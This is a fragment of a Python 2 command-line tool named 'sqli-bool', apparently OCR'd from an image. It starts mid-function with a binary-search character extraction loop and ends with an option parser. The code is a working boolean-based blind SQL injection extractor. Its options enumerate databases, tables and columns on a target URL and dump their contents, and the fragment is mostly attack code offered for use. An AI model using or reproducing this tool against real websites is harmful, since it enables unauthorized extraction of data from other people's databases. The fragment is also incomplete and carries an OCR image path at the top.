                     if standard_md5 == mid_md5_html:
                        low = mid + 1
                    else:
                        high = mid-1

                    str_ascii = (low+high+1)/2
                column_name_one_str = chr(str_ascii)
                sys.stdout.write(column_name_one_str)
                sys.stdout.flush()
            sys.stdout.write("\t")
        print


def main():
    print figlet_format("sqli-bool")
    parser = OptionParser()
    parser.add_option("-u","--URL",action="store",
              type="string",dest="url",
              help="get url")
    parser.add_option("-D","--DB",action="store",
              type="string",dest="db_name",
              help="get database name")
    parser.add_option("-T","--TBL",action="store",
              type="string",dest="table_name",
              help="get table name")
    parser.add_option("-C","--COL",action="store",
              type="string",dest="column_name",
              help="get column name")

    parser.add_option("--dbs",action="store_true",
              dest="dbs",help="get all database name")
    parser.add_option("--current-db",action="store_true",
              dest="current_db",help="get current database name")
    parser.add_option("--current-user",action="store_true",
              dest="current_user",help="get current user name")
    parser.add_option("--tables",action="store_true",
              dest="tables",help="get tables from databases")
    parser.add_option("--columns",action="store_true",
              dest="columns",help="get columns from tables")
    parser.add_option("--dump",action="store_true",
              dest="dump",help="get value")
    (options,args) = parser.parse_args()


    if options == None or options.url == None:
        parser.print_help()
    elif options.dump and options.column_name and options.table_name and options.db_name:
        getAllcontent(options.url,options.column_name,options.table_name,options.db_name)
    elif options.table_name and options.db_name:
        getAllColumnsByTable(options.url,options.table_name,options.db_name)
    elif options.db_name:
        getAllTablesByDb(options.url,options.db_name)    
    elif options.dbs:
        getAllDatabases(options.url)
    elif options.current_db:
        getCurrentDb(options.url)
    elif options.current_user:
        getCurrentUser(options.url)
    elif options.url:
        print "you input: sqli-error.py -u %s" % options.url
